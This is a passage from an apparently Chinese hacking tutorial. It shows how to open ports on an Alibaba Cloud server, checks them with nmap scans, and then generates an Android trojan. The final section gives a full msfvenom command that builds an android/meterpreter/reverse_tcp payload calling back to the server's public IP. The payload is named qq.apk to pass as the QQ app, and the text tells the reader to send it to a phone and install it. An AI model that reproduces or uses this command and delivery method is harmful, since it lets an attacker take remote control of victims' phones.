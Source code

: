**在本机虚拟机中开一台 kali，我们用 nmap 扫一下这个云服务器的 ip**。

nmap -sS -Pn

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMFiaS1BzqibqU75wsHHeZ4RZuPIOOOLYQPJibZJRfejMljbzgTdD9o3j7g/640?wx_fmt=png)  
我们发现问题来了，他们的开放端口明显不一样。  

很明显这里一个是公网开放端口一个是内网开放端口。

这里我们看到内网端口开放了很多。随便改不改，因为 39000 到 40000 都是开的。随便选一个用就行。

但是要注意一点、内网公网都要开相同的（这里 1234 就是我手动加上去的。）

### 五、怎么开放公、内网端口

这里我用的是阿里云服务器。

公网：进入阿里云可以看到网络与安全下的一个安全组。

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMKLB1S6HfAd5ELRNTZR4WrImf56N1F2BCpoZg8VyGRicr0XLiaU45yAdA/640?wx_fmt=png)

右边有一个配置规则。  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMaBNXefOMA3qMhibNCAAlbG1w8mtUYsR9uKcCKaGdicymjKQ33nzLTIOw/640?wx_fmt=png)  
点进去后配置的就是公网的端口了。  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMDwxGibicG4fWrZ9lkdHRxphcIWEQnlF30humOZeU8PykITWMTkXvKU1w/640?wx_fmt=png)

内网：内网就更简单了。宝塔面板改的就是内网的，当然你也可以试试直接用命令。

这里就不演示了。（还不知道直命令行不行，没试过。）

  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMEnEwt09hMJ9wfEw0w4XHIVAe2atGQ34lxquUbxpYtib68P9C9bxwgHA/640?wx_fmt=png)

好了，配置完成后我们在用 nmap 扫描一下。

  
这里看到出现 1234 端口了（我在公网上配置的也是 1234 端口。）

虽然上面说状态是 closed，不过无关紧要。

  
![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMYIvx8QAf1BkJPq8nC4Beoic3eYLlfMibxDqiaPgibxNSWaqk7f4OX3ia5Gw/640?wx_fmt=png)

六、生成 apk 木马

准备工作已经完成，现在开始写马

这里我是直接在自己本机虚拟机中的 kali 里写马，  
（这里直接用云服务器中的 msf 写马，要传到手机上去有一点麻烦，所以我干脆直接在本机写马，将 ip 改成云服务器的就行。）

这里我的云服务器只负责接受会话。

生成 apk 木马。

msfvenom -p android/meterpreter/reverse_tcp lhost = 公网 ip lport=1234 R > qq.apk

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSESXbInbSAibMicdvBJgNJZvMxxM3zKwGlib6e7vJbia8U2vgibibxpSTQqIfmCjZKNaxaj2Juc0j9ibYzng/640?wx_fmt=png)  
**生成木马后直接拖到本机再通过 qq 传给手机安装即可**。
